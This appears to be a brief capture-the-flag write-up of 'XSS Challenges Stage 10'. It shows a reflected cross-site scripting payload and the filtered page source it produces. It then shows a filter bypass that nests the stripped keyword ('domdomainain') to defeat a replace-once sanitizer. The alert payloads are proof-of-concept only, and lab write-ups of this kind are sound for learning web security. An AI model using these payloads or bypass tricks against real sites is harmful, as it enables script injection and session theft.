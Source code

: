 # **XSS Challenges Stage 10**

Insert Stage 2 payload again.

`"><script>alert(document.domain);</script><a style="`

Then you will see this in source code.

```
<hr class=red>No results for your Query. Try again: <input type="text" name="p1" size="50" value=""><script>alert(document.);</script><a style=""> 
```

The code `domain` is miss. It means the whole word has been replaced.

Here's come up a common trick. This trick can pass the replaceing technism which just check for once.

Use the word which will be replaced to seperate the word itself.

Like `domain` becomes `domdomainain`.

Let's insert our new payload:

`"><script>alert(document.domdomainain);</script><a style="`

![](https://i.imgur.com/GDn9607.png)

